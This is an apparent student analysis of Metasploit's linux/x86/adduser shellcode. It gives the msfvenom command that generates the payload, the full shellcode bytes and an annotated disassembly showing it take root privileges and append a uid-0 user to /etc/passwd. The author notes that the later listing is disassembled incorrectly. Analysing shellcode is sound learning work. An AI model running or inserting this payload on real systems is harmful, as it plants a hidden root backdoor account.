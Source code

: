 # linux/x86/adduser
- Analysis by: William Moody
- PA-25640

I first dumped the shellcode:
`msfvenom -p linux/x86/adduser USER=user PASS=pass -f c`

Then pasted it into `shellcode.c`, and compiled with:
`gcc shellcode.c -o shellcode`.

Libemu didn't give any meanigful output for this shellcode. I did however use the 
output of ndisasm, created with this command:
`echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x75\x73\x65\x72\x3a\x41\x7a\x77\x31\x37\x63\x54\x6e\x6e\x4a\x41\x41\x41\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - -b 32 -p intel > linux-x86-adduser.ndisasm`

To analyze the shellcode itself I decided to use GDB with the [pwndbg plugin](https://github.com/pwndbg/pwndbg). 

**First I needed to skip my runner code and get to the actual shellcode. The commands needed are:**
```
b*main+201
r
stepi
```

**The first thing the shellcode does is set the real and effective user id of the process to 0 (root)**

`setreuid(0, 0);`

```
00000000  31C9              xor ecx,ecx				; ECX = 0
00000002  89CB              mov ebx,ecx				; EBX = 0
00000004  6A46              push byte +0x46
00000006  58                pop eax					; EAX = 0x46
00000007  CD80              int 0x80				; setreuid(...)
```

**Next open "/etc/passwd", which is the file where users are defined on linux**

`int fd = open("/etc/passwd", 0x401);`

```
00000009  6A05              push byte +0x5
0000000B  58                pop eax					; EAX = 0x5
0000000C  31C9              xor ecx,ecx				; ECX = 0
0000000E  51                push ecx				
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f	; Push "/etc//passwd\x00"
0000001E  89E3              mov ebx,esp				; EBX = *"/etc/passwd\x00"
00000020  41                inc ecx					; ECX = 1
00000021  B504              mov ch,0x4				; ECX = 0x401 = O_NOCTTY | O_WRONLY 
00000023  CD80              int 0x80				; open(...)
```

**Assembly code from here on was incorrectly disassembled by ndisasm. I will include it anyways, but What actually happens is:**

`buf` is a predefined series of characters with the value
`"user:Azw17cTnnJAAA:0:0::/:/bin/sh\n"`

The shellcode appends this line to "/etc/passwd"
`write(fd, buf, len(buf));`

Then the shellcode exits without setting a specific status code:
`exit();`

```
00000025  93                xchg eax,ebx
00000026  E822000000        call 0x4d				
0000002B  7573              jnz 0xa0
0000002D  65723A            gs jc 0x6a
00000030  41                inc ecx
00000031  7A77              jpe 0xaa
00000033  3137              xor [edi],esi
00000035  63546E6E          arpl [esi+ebp*2+0x6e],dx
00000039  4A                dec edx
0000003A  41                inc ecx
0000003B  41                inc ecx
0000003C  41                inc ecx
0000003D  3A30              cmp dh,[eax]
0000003F  3A30              cmp dh,[eax]
00000041  3A3A              cmp bh,[edx]
00000043  2F                das
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```
